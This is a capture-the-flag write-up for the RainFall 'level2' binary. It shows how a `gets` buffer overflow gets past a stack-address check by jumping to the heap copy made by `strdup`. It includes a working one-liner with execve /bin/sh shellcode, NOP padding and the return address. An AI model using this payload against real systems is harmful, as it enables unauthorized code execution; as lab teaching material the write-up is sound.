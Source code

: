 Using a decompiler we see that the main use a function `p` where `gets` is used
with a buffer so we can exploit it to store a shellcode. A check is made to
prevent `EIP` to store a lower address in the stack. The `p` function also use
`strdup` to copy the buffer content in the heap.

Using ltrace we can get the return address of `strdup`, which is also the address
of our shellcode thanks to the copy of the buffer made by `strdup`.

```Shell
level2@RainFall:~$ ltrace ./level2
[...]
strdup("") = 0x0804a008

```

Using gdb and a buffer overlow pattern we can see that we have 80 bytes before 
EIP to store our shellcode.

We will use a shellcode that open a terminal of 21 bytes so we need to add 59 bytes
of `NOP` instructions for the padding (21 + 59 = 80 bytes). Then we replace `EIP`
with the address of `strdup` return (in little endian) to pass the check mentioned
earlier.

```Shell
python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08")' > /tmp/input2
cat /tmp/input2 - | ./level2

```
